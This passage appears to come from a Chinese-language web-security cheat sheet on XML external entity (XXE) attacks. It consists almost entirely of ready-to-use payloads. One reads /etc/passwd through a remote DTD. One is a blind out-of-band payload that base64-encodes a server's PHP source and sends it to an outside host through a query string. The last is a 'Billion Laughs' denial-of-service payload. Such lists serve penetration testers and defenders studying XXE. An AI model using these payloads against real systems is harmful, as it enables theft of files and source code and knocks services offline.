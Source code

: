 ```xml
<!DOCTYPE kaibro[
    <!ENTITY xxe SYSTEM "\\12.34.56.78">
]>
<root>&xxe;</root>
```

## 参数实体

```xml
<!DOCTYPE kaibro[
    <!ENTITY % remote SYSTEM "http://kaibro.tw/xxe.dtd">
    %remote;
]>
<root>&b;</root>
```
xxe.dtd: `<!ENTITY b SYSTEM "file:///etc/passwd">`


## Out of Band (OOB) XXE

- Blind 无回显

```xml
<?xml version="1.0"?>
<!DOCTYPE ANY[
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/xxe/test.php">
<!ENTITY % remote SYSTEM "http://kaibro.tw/xxe.dtd">
%remote;
%all;
%send;
]>
```

xxe.dtd:

```xml
<!ENTITY % all "<!ENTITY &#37; send SYSTEM 'http://kaibro.tw/?a=%file;'>">
```

## DoS

- Billion Laugh Attack

```xml
<!DOCTYPE data [
<!ENTITY a0 "dos" >
<!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
<!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
<!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
<!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
]>
<data>&a4;</data>
```
